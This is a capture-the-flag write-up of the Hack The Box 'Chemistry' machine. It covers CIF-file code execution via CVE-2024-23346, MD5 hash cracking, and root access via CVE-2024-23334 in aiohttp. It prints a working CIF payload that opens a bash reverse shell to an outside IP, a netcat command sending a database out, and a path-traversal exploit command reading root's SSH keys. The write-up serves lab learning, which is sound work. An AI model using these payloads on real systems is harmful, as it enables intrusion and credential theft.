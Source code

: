 ![Chemistry](Chemistry_images/pwned.png)

Chemistry was an interesting box that involved exploiting a vulnerable web application handling CIF files.
By leveraging CVE-2024-23346, I gained initial access through a crafted payload.
After obtaining database credentials and cracking weakly hashed passwords, I secured SSH access.
Privilege escalation was achieved by exploiting an outdated aiohttp service (CVE-2024-23334), ultimately leading to root.
This box highlighted the dangers of insecure file parsing, weak password hashing, and outdated dependencies.

# User flag

Initial nmap scan reveals just two ports. SSH on 22 and a werkzeug server on port 5000.

![nmap](Chemistry_images/nmap.png)

First glance over the website provides me with an unknown to me file type. A CIF file.
I will do some research to see what exactly is a CIF file, and how it can useful for me.

After some searching, I stumbled upon a CVE numbered as 2024-23346.

https://nvd.nist.gov/vuln/detail/CVE-2024-23346
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346

![chemhome](Chemistry_images/chemhome.png)

I'll register and login as `test1:test1`

![dashboard](Chemistry_images/dashboard.png)

I can grab the example file here. It'll help me structure the payload for a reverse shell.

```
#Example file

data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```
And this is my payload:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.52/9001 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

![shell](Chemistry_images/shell.png)

It worked! I can now proceed and look through the files. I'll look for a database file, hoping to grab some credentials and secure an SSH connection.

In the instance directory, I found a database file. I'll send it over to my machine with netcat.

```
Chemistry-machine: cat instance/database.db | nc (IP) (PORT)

My-machine nc -lp (PORT) < database.db
```

Note: There is no indication nor any sign that the transfer was complete. Leave the connection ongoing for approx. 3 minutes, even if it seems like it hung up and then feel free to close it.

![succesful](Chemistry_images/succesful.png)

There are a lot of users in the database file. I'll grab the first 14, since every account below that seems to be user-made(Other HTB players).

I'll save the file as users.txt, then I'll extract only the hashes using awk and I'll save them into creds.txt.

```
awk -F'|' '{print$3}' users.txt > hashes.txt
```

During my recon on the box after getting the shell, I saw this while reading through the app.py file.

```
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        user = User.query.filter_by(username=username).first()
        if user and user.password == hashlib.md5(password.encode()).hexdigest():
            login_user(user)
            return redirect(url_for('dashboard'))
        flash('Invalid credentials')
    return render_template('login.html')
```



Since the application uses MD5 hashing for passwords, cracking them with Hashcat is trivial. MD5 has been deprecated for security purposes due to its weaknesses, making this an easy attack vector.

![cracked](Chemistry_images/cracked.png)

I've got passwords for users rosa, carlos, peter and victoria. However, only rosa exists on  the machine. This can be checked right after receiving back the reverse shell.

![rights](Chemistry_images/rights.png)

There is also no mention of any blockades or blacklists in the config file of ssh. I'll try to SSH into the box as rosa.

![user](Chemistry_images/user.png)

# Privilege escalation

I'll check for active ports using ss with the flags -tulnp.

![check](Chemistry_images/check.png)

The service running on port 8080 interests me. I'll check what is running there via curl.

```
curl localhost:8080 --head
```

![head](Chemistry_images/head.png)

I searched for exploits for this version of aiohttp, and found one rather quickly. Im going to use CVE-2024-23334 in order to find something that'll allow me to gain root access to the box.

https://github.com/wizarddos/CVE-2024-23334

I cloned this repo onto my box and started up a python server, so that I could download exploit.py onto the chemistry machine via wget.

```
python3 exploit.py -u http://127.0.0.1:8080/ -f /root/.ssh/authorized_keys -d assets
```

![exploi](Chemistry_images/exploit.png)

Perfect! This private key will allow me to SSH into the box as root!
I'll copy the entire key into a file on my box.
```
echo 'key' > keyfile.pem
```

Before trying to connect, however, I'll use the command 'chmod' with parameter '600' on the keyfile, because SSH does not like keys with loose permissions.

![root](Chemistry_images/root.png)

Rooted!
